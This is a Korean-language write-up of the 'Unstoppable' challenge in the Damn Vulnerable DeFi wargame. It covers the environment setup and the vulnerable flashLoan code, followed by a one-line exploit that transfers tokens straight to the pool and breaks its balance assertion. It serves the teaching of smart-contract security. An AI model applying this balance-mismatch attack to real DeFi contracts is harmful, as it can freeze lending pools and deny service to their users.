 ```yaml
---
title: "DamnVulnerableDefi Unstoppable 풀이"
author: IceBear
categories:
  - Wargame
tags:
  - DamnVulnerableDefi
  - Unstoppable
---
```


[Damn Vulnerable DeFi]는 DeFi Smart Contract를 대상으로 하는 Wargame 사이트이다.
![Damn Vulnerable DeFi](/assets/images_post/2022-01-25-DamnVulnerableDefi-Unstoppable/damnvulnerabledefi.png)
해당 문제들을 풀어보면서 DeFi Smart Contract에서 발생하는 취약점 유형을 학습할 수 있다.
먼저 Wargame 문제 풀이를 위한 환경설정을 정리하고, 1번 챌린지인 Unstoppable을 풀어보도록 한다. 

## 환경설정

먼저 문제 Repository를 Clone 한다.
~~~
git clone https://github.com/OpenZeppelin/damn-vulnerable-defi.git
~~~

그리고 자바스크립트 패키지 매니저인 yarn을 설치한다.(여기서는 Mac 기준)
~~~
brew install yarn
~~~

그 뒤 yarn을 통해 필요한 패키지들을 설치한다.
~~~
yarn install
~~~

설치가 정상적으로 잘 되면 damn-vulnerable-defi 폴더로 이동하여 npm 명령을 통해 사용가능한 챌린지들을 확인할 수 있다.
~~~
➜  damn-vulnerable-defi ✗ npm run
Lifecycle scripts included in undefined:
  test
    npm run compile && npx mocha --timeout 5000 --exit --recursive test

available via `npm run-script`:
  unstoppable
    npm run compile && npx mocha --timeout 5000 --exit test/unstoppable/unstoppable.challenge.js
  truster
    npm run compile && npx mocha --timeout 5000 --exit test/truster/truster.challenge.js
  naive-receiver
    npm run compile && npx mocha --timeout 5000 --exit test/naive-receiver/naive-receiver.challenge.js
  side-entrance
    npm run compile && npx mocha --timeout 5000 --exit test/side-entrance/side-entrance.challenge.js
  the-rewarder
    npm run compile && npx mocha --timeout 5000 --exit test/the-rewarder/the-rewarder.challenge.js
  selfie
    npm run compile && npx mocha --timeout 5000 --exit test/selfie/selfie.challenge.js
  compromised
    npm run compile && npx mocha --timeout 5000 --exit test/compromised/compromised.challenge.js
  puppet
    npm run compile && npx mocha --timeout 5000 --exit test/puppet/puppet.challenge.js
  compile
    npx buidler compile
~~~

Wargame은 [OpenZeppelin Test Helper]를 통해 로컬에서 테스트할 수 있다.
각 문제에 대한 Exploit 코드는 test 폴더 밑 해당 문제 폴더에 존재하는 challenge.js 파일내에 추가하면 된다.
Unstoppable 문제의 js 파일을 보면 다음과 같이 친절하게 Exploit을 작성할 부분을 정의해두었다.
~~~
...
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
});
...
~~~
그리고 npm 명령을 통해 Exploit을 실행할 수 있다.
~~~
npm run unstoppable
~~~

## Unstoppable 풀이

Contract 파일인 UnstoppableLender.sol 내 flashloan 함수는 다음과 같다.
~~~
function flashLoan(uint256 borrowAmount) external nonReentrant {
  require(borrowAmount > 0, "Must borrow at least one token");

  uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
  require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

  // Ensured by the protocol via the `depositTokens` function
  assert(poolBalance == balanceBefore);
        
  damnValuableToken.transfer(msg.sender, borrowAmount);
        
  IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
        
  uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
  require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
~~~

코드 중간에 assert로 poolBalance와 balanceBefore가 같음을 확인한다.
balanceBefore는 바로 위에서 해당 주소의 balance를 가지고 옴을 알 수 있다.
그에 반해 poolBalance는 전역 변수로 depositTokens 함수를 통해서만 추가될 수 있다.
~~~
...
uint256 public poolBalance;
...
function depositTokens(uint256 amount) external nonReentrant {
  require(amount > 0, "Must deposit at least one token");
  // Transfer token from sender. Sender must have first approved them.
  damnValuableToken.transferFrom(msg.sender, address(this), amount);
  poolBalance = poolBalance + amount;
}
...
~~~

하지만 ERC20 표준에 따라 transfer 함수를 통해 해당 contract에 token을 전송할 수 있다.
그럴 경우 balanceBefore 값이 증가하게 되고, 따라서 poolBalance 값과 balanceBefore 값이 불일치하게 된다.
이를 위한 js 파일내 exploit 코드는 다음과 같다.
~~~
...
it('Exploit', async function () {
    /** YOUR EXPLOIT GOES HERE */
    await this.token.transfer(this.pool.address, ether('1'), {from: attacker });
    });
...
~~~

이를 npm으로 실행하면 다음 결과를 얻는다.
~~~
➜  damn-vulnerable-defi ✗ npm run unstoppable

> unstoppable
> npm run compile && npx mocha --timeout 5000 --exit test/unstoppable/unstoppable.challenge.js


> compile
> npx buidler compile

All contracts have already been compiled, skipping compilation.


  [Challenge] Unstoppable
    ✓ Exploit (50ms)


  1 passing (757ms)
~~~

## 마치며

DeFi에서 사용하는 Pool을 관리하는데 있어 Balance가 다양한 방식으로 조절될 수 있다.
특히 여러 체인을 연계하는 서비스의 경우 ...


[Damn Vulnerable DeFi]: https://www.damnvulnerabledefi.xyz 
[OpenZeppelin Test Helper]: https://docs.openzeppelin.com/test-helpers/0.5/
